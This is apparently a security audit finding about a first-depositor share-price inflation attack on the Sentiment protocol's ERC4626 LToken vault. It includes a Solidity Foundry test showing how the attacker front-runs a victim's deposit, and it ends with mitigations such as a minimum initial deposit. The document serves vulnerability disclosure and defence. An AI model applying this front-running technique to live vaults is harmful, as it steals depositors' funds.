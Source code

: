JohnSmith
# First user can steal part of everyone else's tokens

https://github.com/sentimentxyz/protocol/blob/main/src/tokens/utils/ERC4626.sol#L48
## [H] First user can steal part of everyone else's tokens
### Problem
A user who deposits to LToken vault first can steal part of everybody's tokens by sending tokens to the system externally.
They can manipulate the price of a share.
This attack is possible because you enable depositing a small amount of tokens.
### Proof of Concept
Here is simple test that shows the flow, it is not the exploit (can make it on hardhat, just a lot of setup required)
```solidity
pragma solidity 0.8.15;

import {TestBase} from "../utils/TestBase.sol";
import "forge-std/console.sol";

contract ProtocolTest is TestBase {
    address public alice = cheats.addr(1);
    address public bob = cheats.addr(2);

    function setUp() public {
        setupContracts();
    }

    function testTakeBobsMoney() public {
        erc20.mint(address(alice), 1000 ether);
        erc20.mint(address(bob), 1000 ether);
        cheats.prank(alice);
        erc20.approve(address(lErc20), type(uint256).max);
        cheats.prank(bob);
        erc20.approve(address(lErc20), type(uint256).max);

        cheats.startPrank(alice);
        lErc20.deposit(1, alice); // 1 share costs 1 wei now
        assertEq(lErc20.previewRedeem(1), 1);
        // alice 's bot monitors mempool

        assertEq(lErc20.previewDeposit(180 ether), 180 ether); //Bob checks that he will get 180 ether shares for his 180 ether
        // when bob deposits funds alice's bot puts transaction with higher priority  
        erc20.transfer(address(lErc20), 100 ether); // 1 share costs 100 ether + 1 wei now
        cheats.stopPrank();

        assertEq(lErc20.previewRedeem(1), (100 ether + 1));
       
        cheats.prank(bob);
        lErc20.deposit(180 ether, bob); // 2 shares cost 200 ether + 2 wei, so Bob gets only one share, because of rounding down

        assertEq(lErc20.previewRedeem(1), 140 ether); // now we have ~280 ether in the vault, 140 ether per share
        
        cheats.prank(alice);
        lErc20.redeem(1, alice, alice);

        uint aliceBalance = erc20.balanceOf(address(alice));
        assertEq(aliceBalance, (1040 ether - 1)); // alice got +~40 ether at the expense of bob
    }
}
```

### Mitigation
- Use Flashbots to avoid mempool.
- Force users to deposit at least some amount in the LToken vault.
That way the amount the attacker will need to ERC20.transfer to the system will be at least X * 1e18 instead of X which is unrealistic.
An alternative is to require only the first depositor to freeze big enough initial amount of liquidity. This approach has been used long enough by various projects, for example in Uniswap V2:
[Uniswap/UniswapV2Pair.sol#L119-L121](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L121)
